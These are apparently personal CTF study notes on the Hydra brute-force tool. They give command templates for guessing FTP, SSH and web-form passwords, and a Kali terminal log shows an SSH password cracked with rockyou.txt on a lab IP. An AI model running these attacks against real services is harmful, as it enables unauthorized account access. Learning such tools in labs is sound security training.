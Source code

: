 ### Hydra

More Info: https://github.com/frizb/Hydra-Cheatsheet


What is Hydra?
Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

We can use Hydra to run through a list and 'bruteforce' some authentication service. Imagine trying to manually guess someones password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

#### Hydra Commands

`hydra -l user -P passlist.txt ftp://MACHINE_IP`

Sample: SSH

`hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`

![[Pasted image 20220815022115.png]]

Post Web Form
We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, or simply view the source code.

Below is an example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

![[Pasted image 20220815022213.png]]

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/simple_CTF]
└─$ hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 10.10.134.118 ssh 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-18 08:00:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.134.118:2222/
[2222][ssh] host: 10.10.134.118   login: mitch   password: secret
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-18 08:01:12
                                                                                                                       
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/simple_CTF]
└─$      
```

